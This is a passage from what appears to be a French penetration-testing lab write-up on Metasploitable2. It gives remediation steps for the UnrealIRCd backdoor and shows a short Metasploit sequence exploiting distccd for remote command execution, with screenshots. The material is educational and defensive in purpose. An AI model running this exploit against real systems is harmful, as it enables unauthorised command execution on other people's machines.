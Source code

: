 <p align="center">
    <img src="backdoor.png" alt="backdoor" style="width: 800px;" />
</p> 

### Mesures correctives

Mettre à jour ou supprimer UnrealRCD : Remplacer le démon IRC par une version récente ou un autre logiciel sans backdoor connue.

Restreindre l'accès au port 6667 : Configurer des règles de firewall pour limiter les connexions sur ce port.

Analyser les journaux systèmes : Surveiller les connexions suspectes et implémenter une stratégie de détection des anomalies.

## Backdoors non intentionnelles 

En plus des *backdoors* malveillantes, certains services sont presque des *backdoors* par leur nature même. Le premier d'entre eux installé sur Metasploitable2 est distccd. Le problème avec ce service est qu'un attaquant peut facilement en abuser pour exécuter une commande de son choix, comme le montre l'utilisation du module Metasploit ci-dessous. 

```bash
msfconsole
use exploit/unix/misc/distcc_exec
set RHOST <IP machine Metasploit>
exploit
```

<p align="center">
    <img src="unint_backdoor_conf.png" alt="unint_backdoor_conf" style="width: 400px;" />
</p> 

Dans le cas ci-dessus, il nous a fallu utiliser configurer le payload et le LHOST comme vu précédemment. 

<p align="center">
    <img src="unint_backdoor.png" alt="unint_backdoor" style="width: 800px;" />